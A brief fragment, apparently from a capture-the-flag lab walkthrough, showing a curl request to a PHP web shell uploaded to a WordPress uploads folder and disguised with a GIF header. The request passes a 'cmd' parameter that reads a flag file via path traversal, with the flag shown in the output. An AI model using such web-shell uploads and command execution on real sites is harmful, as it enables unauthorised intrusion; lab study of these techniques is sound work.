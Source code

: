 ```

> id

[x] Failed to execute PHP code...
```

```
curl -s http://blog.inlanefreight.local/wp-content/uploads/2023/07/vroizekvphhlyuq-1689146131.7064.php?cmd=cat%20../../../../flag_d8e8fca2dc0f896fd7cb4cb0031ba249.txt
GIF689a;

l00k_ma_unAuth_rc3!
▒�              
```
